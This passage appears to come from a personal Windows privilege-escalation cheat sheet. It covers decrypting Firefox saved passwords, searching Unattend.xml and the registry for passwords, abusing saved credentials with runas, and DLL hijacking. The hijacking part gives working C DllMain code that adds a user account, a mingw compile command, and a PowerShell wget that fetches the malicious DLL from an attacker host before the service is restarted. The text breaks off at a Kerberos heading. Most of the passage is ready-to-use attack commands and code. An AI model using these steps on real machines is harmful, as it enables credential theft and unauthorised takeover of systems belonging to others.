```bash
python3 firefox_decrypt.py <file path> 
```

use psexec in impacket, or rpc to login

### Passwords

- Gain Base64 encoded password

  hash is in C:\Windows\Panther\Unattend\Unattended.xml

- Saved credentials

  If `cmdkey /list` worked, try `runas /savecred /user:admin reverse_shell.exe`

- Registry keys containing passwords

  `reg query HKLM /f password /t REG_SZ /s`

  `reg query HKCU /f password /t REG_SZ /s`

- Unattend.xml sometimes worth reading

### DLL Hijacking

Vulnerability scanner: Process Monitor (ProcMon) (Need admin priv to run.)

If there are missing dll file, you can create

```c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user jack Password11");
        ExitProcess(0);
    }
    return TRUE;
}
```

If don't have mingw, `apt install gcc-mingw-w64-x86-64`

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Then on target powershell, 

```powershell
wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
sc stop <service> & sc start <service>
```



## Attack Kerberos

Attack Privilege Requrements-
